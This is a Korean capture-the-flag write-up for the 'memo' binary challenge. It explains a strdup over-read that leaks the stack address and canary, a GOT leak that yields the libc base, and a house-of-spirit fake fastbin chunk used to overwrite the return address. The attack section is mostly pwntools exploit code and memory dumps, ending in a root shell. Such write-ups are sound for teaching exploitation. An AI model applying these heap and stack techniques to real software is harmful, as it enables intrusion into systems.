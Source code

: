point : 200
# Description
```
Sometimes the wisest way to win is by giving up ;)

nc 159.203.116.12 8888
```
```
$ md5sum *
885acc6870b8ba98983e88e578179a2c  libc-2.23.so
e4096418e39ed90698b9a850d2d2c8a7  memo
```

# 취약점
## 취약점 1: strdup() 의 size check
```
__int64 __fastcall alloc(char *a1)
...
  fwrite("Data: ", 1uLL, 6uLL, stderr);
  if ( read(0, a1, 0x30uLL) <= 0 )
...
  *((_QWORD *)a1 + 3) = strdup(a1);
...
  printf("Are you done? [yes/no] ", a1);
  if ( read(0, s1, 6uLL) <= 0 )
...
    if ( strcmp(s1, "no") )
...
    if ( read(0, *((void **)a1 + 3), 0x30uLL) <= 0 )
```
위 함수는 데이터를 입력받고  
`strdup()` 를 이용한 메모리 할당을 한다.  
그리고 다시 한번 입력할 수도 있다. (`"Are you done? [yes/no] "`)  
`read()` 길이는 `0x30` 으로 고정되어있다.  
  
`strdup()` 함수는 동적 할당할 크기를 `strlen()` 을 통해서 정한다.  
```
/* Duplicate S, returning an identical malloc'd string.  */
char* __strdup (const char *s)
{
  size_t len = strlen (s) + 1;
  void *new = malloc (len);

  if (new == NULL)
    return NULL;

  return (char *) memcpy (new, s, len);
}
```
`strlen()` 은 `NULL` byte 가 나올때까지 길이를 측정하므로  
```
buf    -> 0x00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
canary -> 0x10: 00 de ad be
```
`canary` 앞까지의 `NULL` byte 를 덮어씌워준다면 ( `"A"*0x11` )  
```
buf    -> 0x00: 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
canary -> 0x10: 41 de ad be
```
실제론 `0x11` 만큼만 입력했지만  
`strlen()` 은 `0x14` 만큼을 측정하게 되어 `malloc()` 한다.  
  
이 `strdup()` 로 인해서 현재 **스택의 주소(ASLR 우회)**와 **canary(SSP 해제)** 를 leak 할 수 있다.  

## 취약점 2: pointer 조작을 통한 GOT leak (BOF)
```
--==[[ Spiritual Memo ]]==--
[1] Create a memo            # alloc()
[2] Show memo                # dump()
[3] Delete memo              # del()
[4] Tap out
>
```
처음 프로그램을 시작하면 `menu()` 를 띄우는데  
`[4] Tap out` 을 누르면  
```
...
        alloc((__int64)&buf);
...
    fwrite("Giving up already? [yes/no] ", 1uLL, 0x1CuLL, stderr);
    if ( read(0, &buf, 0x30uLL) <= 0 )
...
```
`"Giving up already? ~"` 하면서 `read()` 한다.  
이때 `buf` 에 0x30 을 받을 수 있게 되는데  
( alloc() 에서 똑같은 read(0, ,0x30) 이 있지만 이후에 (&buf + 0x18) 에 주소를 초기화시키기 때문에 이용할 수가 없다. )  
`(&buf + 0x18)` 는 `dump()` 할 때의 참조하는 주소가 저장되는 곳이다.  
```
mov     rax, [rbp+var_18]
mov     rdi, rax
call    dump

buf = rbp-0x30
var_18 = rbp-0x18
buf + 0x18 = var_18
```
즉 `(&buf + 0x18)` 에 leak 하고 싶은 주소값을 넣기만하면  
그 주소에 저장되어 있는 데이터를 볼 수 있게된다.  
우리는 `puts@GOT` 를 leak 해서 **libc 의 base 주소**를 계산하고  
gadget 을 모을 것이다.  

## 취약점 3: house of spirit
취약점 1,2 만으로 RET 를 덮을 수 없다.  
`buf` 가 `rbp-0x30` 인데 read(,, 0x30) 이기 때문이다. ( 0x10 bytes 모자라다 )  
```
buf -> 0x00: 00000000 00000000 00000000 00000000
       0x10: 00000000 00000000 00000000 00000000
       0x20: 00000000 00000000 00000000 00000000
       0x30: <-     sfp     -> <-     ret     ->
```

```
mov     rax, [rbp+var_18]
mov     rdi, rax
call    del
```
`del()` 은 `free()` 하는 녀석이고  
매개변수로 BOF 를 통해 변조할 수 있는 `var_18` 이 들어간다.  
스택에 fake chunk 를 만들어서 `free()` 하게되면  
다음 `malloc()` 시에 fastbin 에서 할당 주소를 가져오게 되는 취약점을 이용해서  
RET 역시 변조할 수 있게 된다.  
```
buf    ->   0x00: 00000000 00000000 00000000 00000000
malloc() -> 0x10: 00000000 00000000 00000000 00000000
            0x20: 00000000 00000000 00000000 00000000
            0x30: <-     sfp     -> <-     ret     ->
```

# Exploit
1. 스택 주소와 canary leak  
	
	```
0x7fff04a4d1c0: 0x0000000000000000      0x0000000000000000
0x7fff04a4d1d0: 0x0000000000400e20      0x0000000000400870
0x7fff04a4d1e0: 0x00007fff04a4d2d0      0x136fe51ca293f100
0x7fff04a4d1f0: 0x0000000000400e20      0x00007f4af3297561

0x7fff04a4d1e0 -> buf+0x110
0x7fff04a4d1e8 -> canary
	```
	`read()` 하기 직전의 `buf` 의 모습이다.  
	`0x20` 만큼 데이터를 넣으면 `strdup()` 의 `strlen()` 이 길이를 잘못 재서 뒤의 데이터도 딸려온다.  
	```
    alloc('A'*0x20)
    buf = show(0x20) - 0x110

0x20d1000:      0x0000000000000000      0x0000000000000031
0x20d1010:      0x4141414141414141      0x4141414141414141
0x20d1020:      0x4141414141414141      0x4141414141414141
0x20d1030:      0x00007fff04a4d2d0      0x0000000000020fd1
	```
	이제 출력시키면 된다.  
	```
[DEBUG] Received 0x2d bytes:
    00000000  44 61 74 61  3a 20 41 41  41 41 41 41  41 41 41 41  │Data│: AA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000020  41 41 41 41  41 41 d0 d2  a4 04 ff 7f  0a           │AAAA│AA··│····│·│
    0000002d
[+] Buffer: 0x7fff04a4d1c0
	```
	  
	`canary` 도 똑같은 방법으로 leak 하면 된다.  
	  
2. GOT leak  
	
	```
    giveup('no'.ljust(24,'\x00')+p64(memo.got['puts']))
    libc = show(0) - elf.symbols['puts']

0x7fff04a4d1c0: 0x0000000000006f6e      0x0000000000000000
0x7fff04a4d1d0: 0x0000000000000000      0x0000000000601f90 <- puts@GOT
0x7fff04a4d1e0: 0x4242424242424242      0x136fe51ca293f142
0x7fff04a4d1f0: 0x0000000000400e20      0x00007f4af3297561
	```
	메뉴 4번으로 `(&buf + 0x18)` 을 `puts@GOT` 로 바꾸고 출력해주면  
	```
.text:0000000000400C6B <dump+16>       mov     rsi, rax
.text:0000000000400C6E <dump+19>       mov     edi, offset aDataS ; "Data: %s\n"
.text:0000000000400C73 <dump+24>       mov     eax, 0
.text:0000000000400C78 <dump+29>       call    printf

RDI  0x400f85 ◂— 'Data: %s\n'
RSI  0x601f90 (_GLOBAL_OFFSET_TABLE_+32) —▸ 0x7f4af32e1170 (puts)
	```
	```
[DEBUG] Received 0xd bytes:
    00000000  44 61 74 61  3a 20 70 11  2e f3 4a 7f  0a           │Data│: p·│.·J·│·│
    0000000d
[+] Libc: 0x7f4af3277000
	```
	  
3. house of spirit  
	
	```
    exp = 'no\x00'.ljust(8, 'C')
    exp += p64(0x20)
    exp += p64(0)
    exp += p64(buf+0x10)
    exp += p64(0)
    exp += p64(0x1234)
    giveup(exp)
    delete()

0x7fff04a4d1c0: 0x4343434343006f6e      0x0000000000000020 <- size
0x7fff04a4d1d0: 0x0000000000000000      0x00007fff04a4d1d0 <- free()
0x7fff04a4d1e0: 0x0000000000000000      0x0000000000001234 <- next size
0x7fff04a4d1f0: 0x0000000000400e20      0x00007f4af3297561
	```
	```
.text:0000000000400C88 <del+8>         mov     [rbp+ptr], rdi
.text:0000000000400C8C <del+12>        mov     rax, [rbp+ptr]
.text:0000000000400C90 <del+16>        mov     rdi, rax        ; ptr
.text:0000000000400C93 <del+19>        call    free

RDI  0x7fff04a4d1d0 ◂— 0x0
	```
	free() 할 주소가 스택이다.  
	```
fastbins
0x20: 0x7fff04a4d1c0 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
	```
	이제 똑같이 `0x20` 만큼 할당하게 되면 fastbin 에서 가져오게 된다.  
	  
	```
    alloc('D\x00', 'no\x00')
    one_gadget = 0x40beb
    r.sendafter('Data: ', '\x00'*24+p64(canary)+'EEEEEEEE'+p64(libc+one_gadget))

0x7fff04a4d1c0: 0x4343434343000044      0x0000000000000020
0x7fff04a4d1d0: 0x0000000000000000      0x0000000000000000
0x7fff04a4d1e0: 0x0000000000000000      0x136fe51ca293f100
0x7fff04a4d1f0: 0x4545454545454545      0x00007f4af32b7beb
	```
	RET 를 shell 떨구는 gadget 주소로 변조시켰다.  
	  
	```
[+] Buffer: 0x7fff04a4d1c0
[+] Canary: 0x136fe51ca293f100
[+] Libc: 0x7f4af3277000
Quitter!
$ id
uid=0(root) gid=0(root) groups=0(root)
$
	```
